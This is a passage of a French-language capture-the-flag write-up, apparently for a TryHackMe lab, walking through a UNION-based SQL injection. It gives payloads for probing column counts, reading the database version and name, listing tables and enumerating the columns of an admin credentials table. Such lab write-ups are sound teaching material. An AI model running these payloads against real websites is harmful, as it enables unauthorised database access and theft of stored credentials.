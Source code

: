 ```SQL
' UNION SELECT NULL; --
' UNION SELECT NULL, NULL; --
' UNION SELECT NULL, NULL, NULL; --
' UNION SELECT NULL, NULL, NULL, NULL; --
' UNION SELECT NULL, NULL, NULL, NULL, NULL; --
' UNION SELECT NULL, NULL, NULL, NULL, NULL, NULL; --
' UNION SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL; --
' UNION SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL; --
```

![Union SQLi payloads](/images/THM-K2/UNION_SQLi_payloads.png)

Après avoir exécuté notre attaque, nous constatons que `' UNION SELECT NULL, NULL, NULL ; --` fonctionne, ce qui signifie que trois colonnes sont escomptées.

![Union SQLi successful payload](/images/THM-K2/UNION_SQLi_working_payload.png)

Exécutons un test et essayons de trouver la version de la base de données.

```SQL
' UNION SELECT NULL, NULL, @@VERSION; --
```

![SQLi db version](/images/THM-K2/SQLi_db_version.png)

Nous réussissons et trouvons la version `8.0.33-0ubuntu0.20.04.2`. Ensuite, nous devons déterminer la base de données dans laquelle nous nous trouvons.

```SQL
' UNION SELECT NULL, NULL, database(); --
```

Nous sommes dans la base de données `Ticket Review`.

![Ticket review database](/images/THM-K2/Ticket_review_db.png)

Listons maintenant les noms de toutes les tables de cette base de données.

```SQL
' UNION SELECT table_name, NULL, NULL FROM information_schema.tables WHERE table_schema = database(); --
```

Nous découvrons trois tables! `admin_auth`, `auth_users`, et `tickets`.

![Tables list in Ticket Reviiew DB](/images/THM-K2/tables_list_k2.png)

Examinons le contenu de `admin_auth`.

```SQL
' UNION SELECT column_name, NULL, NULL FROM information_schema.columns WHERE table_name = 'admin_auth'; -- 
```

Nous trouvons quatre colonnes dans la table `admin_auth` qui sont : `id`, `admin_username`, `admin_password`, et `email`.

